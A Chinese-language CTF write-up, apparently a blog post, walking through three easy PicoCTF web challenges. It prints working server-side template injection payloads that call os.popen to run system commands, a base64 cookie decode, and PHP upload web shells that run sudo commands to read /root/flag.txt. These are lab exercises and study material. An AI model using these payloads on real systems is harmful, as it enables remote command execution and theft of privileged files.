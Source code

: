 ```yaml
---
title: 'PicoCTF Web Exploitation Easy分級解題紀錄'
published: 2025-04-19
lastUpdated: '2025-04-20 04:00'
description: '紀錄一點算簡單的CTF解題'
image: ''
tags: [PicoCTF, Web Exploitation, CTF, 網路安全]
category: '資安'
draft: false
lang: ''
---
```

# Introduction
這是拿來放一些解題ㄉ紀錄，慢慢邊做邊寫，因為我好久沒碰了
有些有有些沒有是因為有些我已經解過ㄌ，我也懶得再解一次


## SSTI1

首先你會看到一個酷酷的網站，有一個輸入框，你會發現不論輸入啥他都會顯示在頁面上，我們可以試試看輸入```{{7*7}}```  會得到什麼
<img src="https://i.imgur.com/mbFg62p.png" width="300" height="200" />
沒錯!一個大大的49，這就是一個SSTI的漏洞，這個漏洞可以讓我們執行python的程式碼，接下來我們可以試試看```{{7*7*7*7}}``` 會得到什麼
![image](https://i.imgur.com/WgLYlaS.png)
這時我們已經確定這是一個SSTI的漏洞了，接下來我們可以來點更有趣的東西，他可以執行python的程式碼，因此應該可以執行一些系統命令
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![1745082641462](images/1745082641462.png)
這段程式碼大概的意思是
- ```request.application```: 訪問當前Web請求的應用

- ```__globals__```: 訪問全局命名空間，允許獲取內建函式

- ```__import__('os')```: 動態導入 os 模塊，這樣就可以使用操作系統相關功能

- ```popen('id')```: 執行系統命令 id，該命令顯示當前用戶的身份

- ```read()```: 讀取命令的輸出結果  
那我們可以把命令改成，ls來看看有沒有什麼驚喜，聽話讓我看看!
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![1745083019268](images/1745083019268.png)
最後只要試試看
```
python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
我們就會得到flag了!  
picoCTF{||幹嘛，你要自己去試試看阿!還想偷看阿hhhhhhhhhhhhhhh||}  




## Cookie Monster Secret Recipe
首先我們看到網站，並且檢查F12->儲存空間->Cookies看看裡面有沒有東西，啥都沒有  
![cXhhshj.png](https://i.imgur.com/cXhhshj.png)
我們可以嘗試登入一下，帳號密碼隨意，哎呀看起來有問題
![image](https://i.imgur.com/xc9JLcK.png)
我們可以再看一次Cookies，看看有沒有東西
看起來有東西出現!
![image](https://i.imgur.com/41r84nI.png)
看起來長得有點像是base64編碼的東西，我們可以試試看丟到解碼的網站看看
得到答案啦!
![image](https://i.imgur.com/CuDY1CK.png)
- FLAG
  - ||picoCTF{自己去試試看啦hahahahahahahahha}||


## n0s4n1ty 1
首先我們看到網站可以上傳檔案，先上傳看看一個php檔案看看譨不能傳PNG以外的東西
提示中說要重點針對```sudo -l```，那我們就嘗試在php中執行看看
```php
<?php echo exec('sudo -l');?>
```
上傳之後顯示，讓我們去看看```uploads/owo.php```有甚麼東西
```
The file owo.php has been uploaded Path: uploads/owo.php 
```
![image](https://i.imgur.com/gFTXjB4.png)
既然可以執行指令那我們就可以嘗試看看root資料夾下面有沒有什麼驚喜
```php
<?php echo exec('sudo ls -al /root ');?>
```
再次訪問網站並且去到```uploads/owo.php```會顯示
```bash
-rw-r--r-- 1 root root 36 Mar 6 03:56 flag.txt
```
那我們可以喵喵一下把檔案內容顯示出來!
```php
<?php echo exec('sudo cat /root/flag.txt');?>
```
哎呀又找到ㄌ
- FLAG
  - picoCTF{||aaaaaaaaaaa自己去試試看啦||}

